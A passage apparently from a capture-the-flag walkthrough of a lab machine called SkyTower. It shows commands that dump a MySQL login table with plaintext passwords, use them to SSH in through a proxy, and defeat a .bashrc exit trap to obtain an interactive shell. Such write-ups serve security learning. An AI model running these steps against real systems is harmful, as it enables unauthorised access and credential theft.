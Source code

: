 ```bash
mysql -u root -proot -e "show databases"
Database
information_schema
SkyTech
mysql
performance_schema
```

Enumerating the SkyTech database tables.

```bash
mysql -u root -proot -e "use SkyTech; show tables"
Tables_in_SkyTech
login
```

Retrieving the records from the table login.

```bash
mysql -u root -proot -e "use SkyTech; select * from login"
id      email   password
1       john@skytech.com        hereisjohn
2       sara@skytech.com        ihatethisjob
3       william@skytech.com     senseable
```

We have the password for the users in plain text, so we login via SSH as user sara.

```bash
root@kali:~$ proxychains ssh sara@192.168.179.175 /bin/bash           
[proxychains] config file found: /etc/proxychains4.conf                       
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4          
[proxychains] DLL init: proxychains-ng 4.14                                     
[proxychains] Dynamic chain  ...  192.168.179.175:3128  ...  192.168.179.175:22  ...  OK
sara@192.168.179.175's password:                                
id                                                             
uid=1001(sara) gid=1001(sara) groups=1001(sara)
```

As we see we don't have an interactive shell, that's annoying, if we check the last three lines of the .bashrc file, that's what interrupts that we can access the system and have a shell. 

```bash
tail -n 3 .bashrc
echo
echo  "Funds have been withdrawn"
exit
```

We can remove the last three lines from the .bashrc file and get a TTY shell, as follows:

```bash
mv .bashrc bashrc   
sed -n '1,111p' bashrc > .bashrc
script -qc /bin/bash /dev/null
sara@SkyTower:~$ id  
uid=1001(sara) gid=1001(sara) groups=1001(sara)
```
